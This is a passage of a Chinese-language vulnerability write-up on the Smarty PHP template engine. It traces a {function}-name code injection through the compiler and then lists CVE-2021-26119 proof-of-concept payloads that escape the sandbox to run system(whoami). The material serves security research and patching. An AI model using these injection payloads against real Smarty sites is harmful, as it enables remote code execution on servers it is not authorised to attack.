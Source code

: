 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-184825336ccb6a66273a6d4eaeafd5ea96b77f0f.png)

`$_content`存入的是我的post传入的值

继续跟踪到callTagCompiler方法，同文件的763line

```php
public function callTagCompiler($tag, $args, $param1 = null, $param2 = null, $param3 = null)
    {
        /* @var Smarty_Internal_CompileBase $tagCompiler */
        $tagCompiler = $this->getTagCompiler($tag);
        // compile this tag
        return $tagCompiler === false ? false : $tagCompiler->compile($args, $this, $param1, $param2, $param3);
    }
```

$tag为function，所以我们进入smarty\_internal\_compile\_function.php，再次文件中分别定义了Smarty\_Internal\_Compile\_Function类和Smarty\_Internal\_Compile\_Functionclose类这两个类分别编译了

{function}和{/function}，下面我们来看一下compile()方法，它也是造成这个漏洞的关键点。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-60ba3bf240b21a54d06db0481779903f3370396f.png)  
其中，这里的$\_name的具体内容就是就是我们function 中的name属性的内容

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-b0e9bb70a5bfd2564ab9344efe7ecadc6f904b60.png)

这里直接就把内容拼接进去了，然后把拼接的内容通过compileTemplateSource这两个方法的共同作用下，最终就是我们看到的编译文件代码loadCompiledTemplate中的`eval("?>" . file_get_contents($this->filepath));`执行了编译文件代码，我们将`$_name=rce(){};phpinfo();function`,这样就是导致前后部分闭合，而中间部分`phpinfo()`暴露，从而导致代码执行。

CVE-2021-26119
--------------

### 概述

环境搭建：[Releases · smarty-php/smarty (github.com)](https://github.com/smarty-php/smarty/releases?page=1)

版本信息：Smarty 模板引擎 &lt;= 3.1.38

测试版本：Smarty 3.1.38

漏洞描述：`{$smarty.template_object}`可以被用来访问到smarty 对象

poc：

```php
string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->enableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setTemplateDir('./x')->display('string:{system(whoami)}')}
```

### 漏洞分析
